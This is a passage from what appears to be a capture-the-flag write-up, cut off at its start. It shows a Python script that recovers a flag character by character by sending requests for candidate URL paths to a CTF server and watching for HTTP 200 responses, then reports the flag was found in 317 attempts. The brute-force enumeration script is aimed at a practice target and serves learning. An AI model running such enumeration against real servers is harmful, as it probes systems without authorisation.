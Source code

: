     BASE = "https://buster.ctf.zone/"
    CHARSET = "0123456789abcdef}"
    PROG_FILE = "buster_progress.txt"

    flag = "flag{"
    if os.path.exists(PROG_FILE):
        with open(PROG_FILE, "r") as f:
            last = f.read().strip()
            if last.startswith("flag{"):
                flag = last
                print(f"[*] Resuming from progress file: {flag}")

    retry = Retry(
        total=5,
        connect=5,
        read=5,
        backoff_factor=0.5,
        status_forcelist=[429, 500, 502, 503, 504],
        allowed_methods=["GET"],
        raise_on_status=False,
    )
    sess = requests.Session()
    sess.mount("https://", HTTPAdapter(max_retries=retry))
    sess.headers.update({"User-Agent": "ctf-buster/1.0"})

    attempts = 0
    print("[*] Starting brute force...")

    while not flag.endswith("}"):
        for ch in CHARSET:
            test = flag + ch
            enc = urllib.parse.quote(test, safe="/")
            attempts += 1
            try:
                r = sess.get(BASE + enc, allow_redirects=False, timeout=5)
                code = r.status_code
            except requests.RequestException as e:
                print(f"[!] Transient error on '{test}': {e}. Backing off...")
                time.sleep(0.5 + random.random() * 0.75)
                continue

            if code == 200:
                flag = test
                print(f"[+] Found next char: {ch} -> {flag} (Attempts: {attempts})")
                with open(PROG_FILE, "w") as f:
                    f.write(flag)
                break

    print(f"[!] Final flag: {flag} (Total Attempts: {attempts})")
    print(f"[*] Progress saved to {PROG_FILE}")
    ```
8. Ran the script until `}` was found, totaling 317 attempts.

---

